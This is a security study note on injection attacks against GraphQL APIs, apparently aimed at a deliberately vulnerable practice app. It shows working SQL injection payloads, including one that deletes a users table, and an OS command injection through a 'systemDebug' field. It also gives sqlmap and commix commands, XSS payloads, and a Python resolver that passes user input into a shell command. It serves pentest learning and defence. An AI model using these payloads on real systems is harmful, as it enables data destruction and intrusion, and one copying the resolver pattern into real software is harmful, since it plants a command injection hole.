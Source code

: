 # Injection Vulnerabilities in GraphQL

### **Introduction**

Injection vulnerabilities occur when an application accepts and processes untrustworthy input without any sanitization. Sanitization is a security measure that involves checking input and removing potentially dangerous characters from it. The absence of such a check could allow the input to be interpreted as a command or a query and execute on either the client side or server side.

### **The Injection Surface**&#x20;

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption><p>Network trust boundaries</p></figcaption></figure>

{% embed url="https://owasp.org/API-Security/editions/2023/en/0x11-t10/" %}

GraphQL presents a wide attack surface due to various points where user input can be injected. These include:

* **Query Arguments:** These are parameters supplied to fields in a GraphQL query. The chapter illustrates how the `pastes` field can take a `filter` argument, which can be vulnerable to SQL injection.

```graphql
# Query Inputs
query {
    pastes(limit: 100) {
        id
        ipAddr
    }
}
------------------------------
# Mutation input points
mutation {
    createPaste(content: "Some content", title:"Some title", public: false) {
        paste {
            id
            ipAddr
        }
    }
}
```

**Exploit**

```graphql
# exploit sql injection 
mutation {
    createPaste(content: "content'); DELETE FROM users; --") {
        paste {
            id
            ipAddr
        }
    }
}
```

* **Field Arguments**: GraphQL fields can also accept arguments that can be manipulated. The example provided involves the `username` field, which is shown to accept a `capitalize` argument.

```graphql
query {
    users {
        username(capitalize: true)
        id
    }
}
```

* **Query Directive Arguments:** Directives modify field behavior, and their arguments can also be a point of injection. An example is a `show_network` directive with a `style` argument.

```graphql
query {
    pastes {
        id
        ipAddr @show_network(style: "cidr")
    }
}
```

You can use the introspection query shown in  to get only the available directives by using the `__schema` meta-field with the directives field.

```graphql
query GetDirectives {
    __schema {
        directives {
            name
            description
            locations
        }
    }
}
```

* **Operation Names:** Clients can define operation names, and these can be manipulated to potentially bypass security measures or mislead log analysis. An example involves spoofing the operation name to bypass audit logging, for example using `SpoofedOperationName` instead of `createPaste`.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Executing a selected query based on its operation name in GraphiQL Explorer</p></figcaption></figure>

* **Input Entry Points:** Any place where user-controlled data is input, such as fields in mutations, which are used to create, update, or delete data, can be injection points. The `createPaste` mutation, which uses `content`, `title`, and `public` arguments, is one example.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* **SQL Injection (SQLi):** The chapter dedicates significant attention to SQL injection, explaining that it can occur when user input is used to construct SQL queries.
  * **Identification:** The chapter advises focusing on fields that accept string values and have names suggesting filtering, such as the `filter` argument in the `pastes` query.
  * **Manual Testing**: Techniques for testing SQL injection manually include using single (') or double (") quotes in input fields to observe how the application responds.
  * **Exploitation:** The chapter explains how to exploit SQLi by using SQL commands, such as `OR 1=1--`, within the filter argument to bypass intended filtering and retrieve all records.
  * **Automated Testing:** The chapter introduces **SQLmap**, a tool for automating SQL injection tests, and explains how to use it to read HTTP requests from a file and test for vulnerabilities.
  * **Database Fingerprinting**: Error messages from the database can be verbose and reveal the database structure to the attacker including table names.
  * **Types of SQL Injection**: The chapter mentions different types of SQLi, such as **blind SQL injection**, **Boolean-based SQL injection**, **error-based SQL injection**, and **time-based SQL injection**.

```graphql
query {
    pastes(filter:"My First Paste'") {
        id
        content
        title
    }
}
----------------------------
query {
    pastes(filter:"My First Paste' or 1=1--") {
        title
        content
    }
}
---------------------------
sqlmap -r request.txt --dbms=sqlite --tables

```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* **Operating System Command Injection:** The chapter explains how a GraphQL API can be vulnerable to OS command injection, for example when user input is incorporated into system commands.
  * **Code Review:** The chapter highlights the importance of reviewing resolver functions to identify where user inputs are used in OS commands.
  * **Manual Testing**: The chapter demonstrates a manual attack by showing how the `systemDebug` field's `arg` argument can be manipulated to execute commands by using a semicolon to separate them.
  * **Automated Testing:** The chapter introduces **Commix**, a tool that automates OS command injection testing by fuzzing various inputs. It explains how Commix can be used to test variations of payloads, characters, and methods and then save valuable time.

{% code overflow="wrap" %}
```graphql
query {
    systemDebug
}
------------------
query {
    systemDebug(arg:"; uptime")
}
-------------------------
# opuput
PID TTY TIME CMD\n 11999 pts/1 14050 pts/1 1 user, load average: 0.71, 0.84, 0.91\n"\ 00:00:00 bash\n

--------------------
# Automation
commix --url="http://127.0.0.1:5013/graphql" --data='{"query":"query{systemDebug(arg:\"test \")}"}' -p arg
```
{% endcode %}

* **Cross-Site Scripting (XSS):** The chapter discusses how to test for XSS vulnerabilities in GraphQL applications, focusing on three main types of XSS:
  * **Reflected XSS:** The chapter explains that reflected XSS can occur when a malicious script is injected into a request and then reflected back to the user in the response.
  * **Stored XSS:** The chapter notes that stored XSS occurs when malicious code is stored on the server, which can then be executed by other users accessing that data.
  * **DOM-Based XSS:** The chapter explains that DOM-based XSS can be exploited by manipulating the client-side JavaScript.
  * **Testing:** The chapter demonstrates how to test for XSS by inserting JavaScript code, such as `<script>alert("XSS")</script>`, into a mutation’s input fields like the `content` field of `createPaste`, and see if the injected script executes.

```graphql
query {
    hello(msg:"<script>document.cookie;</script>")
}
---------------------------
http://example.com/graphql?query=query%20%7B%0A%20%20hello(msg%3A%22hello%22)%0A%7D
----------------------------
http://example.com/graphql?query=query {hello(msg:"hello")}
```

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption><p>A stored XSS vulnerability impacting adjacent applications</p></figcaption></figure>



* **Importance of Resolver Functions:** The chapter underscores that understanding how resolver functions process client data is important for finding injection points. Reviewing resolver functions can reveal how inputs are handled and whether they are properly sanitized.

```python
def resolve_system_debug(self, info, arg=None):
    Audit.create_audit_entry(info)
    if arg:
        output = helpers.run_cmd('ps {}'.format(arg))
    else:
        output = helpers.run_cmd('ps')
    return output
```

* **Bypassing Security Measures:** The chapter notes that attackers can attempt to bypass security measures by manipulating GraphQL operation names. This can sometimes avoid audit logging or make malicious requests appear benign.
